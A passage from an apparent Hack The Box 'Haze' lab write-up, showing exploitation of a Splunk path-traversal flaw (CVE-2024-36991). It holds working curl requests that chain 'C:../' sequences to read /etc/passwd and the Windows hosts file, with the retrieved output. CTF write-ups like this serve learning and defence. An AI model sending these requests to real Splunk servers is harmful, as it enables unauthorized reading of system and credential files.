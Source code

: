 https://www.vicarius.io/vsociety/posts/exploiting-path-traversal-in-splunk-cve-2024-36991

![alt text](../assets/images/haze5.png)

Fun fact is → we can verify it really fast.

### CVE-2024-36991

```bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd
```

![alt text](../assets/images/haze6.png)

We can read yes but we have to know what we have to read for this machine?.

Lets say if we can read more files we still dont know if its important / not important.

```bash
➜  Haze curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../Windows/System32/drivers/etc/hosts
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost

```
